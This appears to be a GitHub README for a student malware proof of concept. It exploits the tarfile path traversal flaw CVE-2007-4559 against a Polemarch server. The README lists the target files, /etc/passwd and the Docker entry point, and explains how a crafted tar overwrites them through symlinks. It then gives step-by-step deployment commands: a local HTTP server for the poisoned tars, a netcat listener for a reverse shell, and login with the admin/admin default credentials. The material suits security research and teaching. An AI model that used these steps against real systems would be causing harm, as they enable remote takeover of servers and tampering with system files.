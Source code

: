 # MALW
Malware UPC

## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
- /etc 
  -> passwd
- /opt/polemarch/bin
  -> polemarchctl: entry point for docker

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder


## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Server hosting the compromised tar files
- Nc listening to execute a reverse shell

First, deploy the polemarch server:

```bash
$: ./polemarch.sh 
+ docker rm polemarch -f
polemarch
+ docker run -d --name polemarch --restart always -v /opt/polemarch/projects:/projects -v /opt/polemarch/hooks:/hooks -p 8080:8080 vstconsulting/polemarch:1.8.5
fbbbd334a21694e760522172519d51e253f1d2bebb35f5b15a01a1b0b96fb518
```

Generate the tar files and host the tar files (example using python localhost server). Configure the server to listen in an interface
accesible from the docker container:

```bash
$: cd poc
$: python tar.py
+ set -o pipefail
+ python3 tar.py
+ python3 -m http.server --bind 172.17.0.1 3000
Serving HTTP on 172.17.0.1 port 3000 (http://172.17.0.1:3000/) ...
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![Project](./images/project.png)

"Sync" the project, which will untar untar our compromised tar.

